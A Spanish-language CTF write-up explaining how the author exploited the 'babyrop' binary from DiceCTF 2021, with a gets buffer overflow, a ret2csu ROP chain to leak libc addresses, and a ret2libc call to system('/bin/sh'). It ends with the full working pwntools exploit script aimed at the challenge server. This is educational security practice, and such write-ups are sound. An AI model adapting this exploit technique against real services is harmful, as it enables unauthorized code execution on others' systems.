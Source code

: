 ```yaml
---
layout: post
title: diceCTF babyrop
date: 2021-02-09 13:59
comments: true
categories: [Sin categoría]
---
```


Hola, ya que he decidido migrar mi página a github pages,y para empezar este 2021, aprovecharé de hacer un write up de un binario que hice el fin de semana en [DICECTF 2021.](https://ctf.dicega.ng/) La parte de pwn estuvo bien buena. Solo alcance a hacer este rop y un heap a medias, pero al menos sirvió para mantener la práctica. 

El binario en cuestión podemos ver que es de 64bit, puedes descargarlo de [aca](https://github.com/dplastico/heap_stream/blob/main/babyrop)  no tiene RELRO ni PIE, lo cual hace las cosas bastante sencillas. Eso sí, debemos considerar que probablemente ASLR si está habilitado en el sistema con lo que de todas formas necesitaremos de un leak.

![Imgur](https://i.imgur.com/wtXtqAk.png)

Al revisar las funciones vemos que ocupa la función [gets](https://linux.die.net/man/3/gets) (ya sabemos que esto lleva a buffer overflow), pero solo ocupa adicional a esto la función de [write](https://man7.org/linux/man-pages/man2/write.2.html) para imprimir en pantalla.

![Imgur](https://i.imgur.com/7xWpbFq.png)

Considerando esto nuestro plan de explotación será el siguiente:

- Generar un Overflow y usar ROP para “lekear” una dirección de LIBC
- Identificar la version de LIBC
- Calcular los offsets necesarios
- Volver a generar un Buffer Overflow esta vez llamar a system y obtener una shell


Para obtener el leak el plan es generar un ROP y hacer un llamado a la función de write, podemos observar los parámetros que usa este syscall en el siguiente [link](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/). En resumen debemos ubicar en el registro RDI el file descriptor 1 (stdout), la dirección  que queramos “lekear” en RSI (en este caso usaremos la dirección GOT de gets y write) y en el registro RDX debemos darle un valor que usará para definir cuántos bytes se imprimirán en pantalla. Por lo mismo debemos considerar para esto al menos 8 bytes.

Podemos usar [ropper](https://github.com/sashs/Ropper) para mostrar los gadgets del binario y no tener que hacer una búsqueda manual, pero vemos que no hay forma de controlar el valor de rdx

![Imgur](https://i.imgur.com/DngI1xm.png)

Pero! Por eso mismo siempre les recomiendo revisar el binario de manera manual, por que en este caso podemos ocupar una técnica conocida como ret2csu. 

Puedes leer una descripción más detallada [acá](https://i.blackhat.com/briefings/asia/2018/asia-18-Marco-return-to-csu-a-new-method-to-bypass-the-64-bit-Linux-ASLR-wp.pdf), pero en resumen, usando esta técnica podemos encontrar ciertos “gadgets universales” que nos permiten controlar determinados registros haciendo uso de estas funciones que siempre se cargan en un ELF producto de la compilación. En este caso usaremos la funcion __lib_csu_init

![Imgur](https://i.imgur.com/lzcqURc.png)

Podemos observar que somos capaces usar un pop al registro R14 en la dirección 0x4011d0 y luego mover con “MOV rdx, r14” en 0x4011b0 el valor al registro RDX. Además el mismo gadget nos permitirá usar R15 y R13 para poder situar los valores de RSI y EDI (4 bytes de RDI).

Para que esto funcione debemos primero agregar los registros necesarios en nuestro “ropchain” de tal manera que pase el check en 0x4011c4 y hacer que el call, llame a write directamente por lo cual debemos asegurarnos que el valor de write este en  0x4011b9 call   QWORD PTR [ r15+rbx*8 ] 

```python
payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof
```

Si enviamos esto podemos lekear las direcciones de gets y write

![Imgur](https://i.imgur.com/ddj0QHq.png)

![Imgur](https://i.imgur.com/ddj0QHq.png)

Con esto podemos buscar una versión de libc remota que coincida y de esa forma podemos calcular los offsets. Para esto ocupare [esta DB](https://libc.blukat.me/)

![Imgur](https://i.imgur.com/aUoas6M.png)

Vemos que coincide con la versión, la 2.31 , podríamos descargarla pero dado que esta pagina nos entrega los offset a system y al string de "/bin/sh" dentro de glibc, pues probaremos con esto en nuestro segundo payload, de la siguiente forma:

```python
payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system
```
Con esto ejecutamos y listo! Tenemos una shell.

![Imgur](https://i.imgur.com/trApFwN.png)

Espero que les haya gustado, este fue el único exploit que pude terminar en el CTF tuve mucho que hacer y los retos no estaban tan fáciles. Aun asi ya he hechos desafíos para Q4 que ocupan esta técnica, por lo cual me pareció valido mostrar como funciona. Espero les haya gustado, aca les dejo el exploit final:

```python
#!/usr/bin/python3
from pwn import *
gs = '''
continue
'''
elf = context.binary = ELF('./babyrop')
context.terminal = ['tmux', 'splitw', '-hp', '70']
libc = elf.libc

def start():
    if args.GDB:
        return gdb.debug('./babyrop', gdbscript=gs)
    if args.REMOTE:
        return remote('dicec.tf', 31924)
    else:
        return process('./babyrop')
r = start()
r.timeout = 0.3
#========= exploit here ===================

poprdi = 0x4011d3
ret = 0x040116b

payload = b"A"*0x48 #overflow a los 72 bytes
payload += p64(0x4011ca) #pop a registros
payload += p64(0)#rbx
payload += p64(1)#rbp
payload += p64(1)#r12 --> edi
payload += p64(elf.got.gets) #r13 --> rsi
payload += p64(8)#r14 ---> rdx
payload += p64(elf.got.write) #r15
payload += p64(0x04011b0) # escribiendo en RDX RSI Y EDI
payload += p64(0)*7 # --> los pop nuevamente
payload += p64(elf.sym.main) #para retornar a main y hacer un segundo bof

r.sendlineafter("name:", payload)

leak = u64(r.recvuntil("Your").split(b"Your")[0][1:7].ljust(8,b"\x00"))  #remote offset
libc.address = leak - 0x086af0
log.info(f"leak = {hex(leak)}")
log.info(f"libc remote = {hex(libc.address)}")

payload = b"A" * 72 #overflow
payload += p64(poprdi) #pop rdi en el binario
payload += p64(libc.address+0x1b75aa) #string de /bin/sh a RDI como primer arg
payload += p64(ret) #ret para alinear el stack a 16 bytes (ubuntu)
payload += p64(libc.address+0x055410) #direccion de system

r.sendlineafter("name:", payload)  #!!

#========= interactive ====================
r.interactive()
```